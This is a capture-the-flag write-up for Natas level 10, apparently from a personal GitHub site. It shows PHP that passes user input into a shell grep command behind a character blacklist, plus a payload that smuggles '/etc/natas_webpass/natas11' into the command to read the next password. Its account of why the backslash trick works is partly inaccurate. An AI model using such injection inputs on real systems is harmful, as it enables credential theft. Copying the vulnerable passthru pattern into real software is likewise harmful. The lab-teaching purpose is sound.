 # Level 10
This level builds on the previous level by intoducing some additional constraints.

## Quest 
We are presented with a webpage containing msg "_For security reasons, we now filter on certain characters_".

![Level 10 Image](./images/Level10.png)

From the source code we can see some additional checks have been introduced, Lets comment the code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) { // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];             // If its there, assign it to var $key
}

if($key != "") {                            // If key is not empty
    if(preg_match('/[;|&]/',$key)) {        // and If user input contains ;,|,&
        print "Input contains an illegal character!";  // Print the message
    } else {
        passthru("grep -i $key dictionary.txt");  // Else, run the command with user input
    }
}
?>
```
<br/><br/>

## Solution
From the source code, we can see that application now doesn't accept characters `;`, `|` and `&`. Essentially all characters that can terminate a command.

Now to construct our payload, we do some tests in our local linux terminal.
```shell
# I have a simple text file 'test'
$ cat test
This is a random file
We love random things, not pseudo random ones.

# Another way to view the file using 'grep'
$ grep -i "" test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # There is no space after \
> test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # If we put a space after \  , command terminates
cat: ' ': No such file or directory
```
<span id="green">Takeaway:</span>
    1. We can use `grep` to view the contents of a file
    2. `\` is used in multiline linux commands to split command to next line when command is too long
    3. But if we put a space after `\`, then it terminates the command

So, Our payload becomes    `"" /etc/natas_webpass/natas11 \`
<br/>Note that we don't need to add extra space at the end as its added for us when `grep` command is run.

Now, we put our payload in the form and it reveals the password for next Level

![Level10 Solution](./images/Level10_solution.png)

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)

